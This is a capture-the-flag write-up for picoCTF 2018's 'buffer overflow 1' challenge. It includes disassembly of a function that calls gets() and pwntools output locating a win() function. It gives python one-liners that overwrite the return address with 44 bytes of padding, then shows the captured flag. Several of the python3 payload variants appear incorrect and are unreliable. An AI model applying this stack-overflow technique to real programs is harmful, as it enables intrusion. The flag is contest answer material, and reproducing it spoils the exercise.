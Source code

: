 # buffer overflow 1

__PROBLEM__

Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba[program](./vuln) on the shell server. [Source](./vuln.c).

__HINT__
This time you're actually going to have to control that return address!
Make sure you consider Big Endian vs Little Endian.

__SOLUTION__
Open `vuln` under cutter and look at `vuln` function:
```
/ (fcn) sym.vuln 46
|   sym.vuln ();
|           ; var char *s @ ebp-0x28
|           0x0804862f      push ebp
|           0x08048630      mov ebp, esp
|           0x08048632      sub esp, 0x28 ; '('
|           0x08048635      sub esp, 0xc
|           0x08048638      lea eax, [s]
|           0x0804863b      push eax ; char *s
|           0x0804863c      call sym.imp.gets ; char *gets(char *s)
|           0x08048641      add esp, 0x10
|           0x08048644      call loc.get_return_address
|           0x08048649      sub esp, 8
|           0x0804864c      push eax
|           0x0804864d      push str.Okay__time_to_return..._Fingers_Crossed..._Jumping_to_0x_x ; 0x80487d4 ; "Okay, time to return... Fingers Crossed... Jumping to 0x%x\n" ; const char *format
|           0x08048652      call sym.imp.printf ; int printf(const char *format)
|           0x08048657      add esp, 0x10
|           0x0804865a      nop
|           0x0804865b      leave
\           0x0804865c      ret
```

```
/ (fcn) sym.win 100
|   sym.win ();
|           ; var char *format @ ebp-0x4c
|           ; var file*stream @ ebp-0xc
|           0x080485cb      push ebp
...
```

```
/ (fcn) main 99
|   int main (int argc, char **argv, char **envp);
...
|           0x080486ab      add esp, 0x10
|           0x080486ae      call sym.vuln
|           0x080486b3      mov eax, 0
```


I just found that return address which is stored in `ebp` register is 48 bytes moved.
Extract address of `win` function `'\xcb\x85\x04\x08'` or from cutter or frow pwn:
```
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] 'buffer overflow 1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
```

Create payload for buffer overflow
```
python2 -c "print 'A'*44 + '\xcb\x85\x04\x08' " | ./vuln

python3 -c "print('A'*44 + '\xcb\x85\x04\x08'.encode().hex())" | ./vuln
python3 -c "print('A'*44 + str(0x080485cb))" | ./vuln
python3 -c "print(bytes([ord('A')] * 44 + [0xcb, 0x85, 0x04, 0x08]))" | ./vuln

```
I got the flag:
```sh
luk6xff@pico-2018-shell:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ python2 -c "print 'A'*44 + '\xcb\x85\x04\x08' " | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```

FLAG - `picoCTF{addr3ss3s_ar3_3asy56a7b196}`
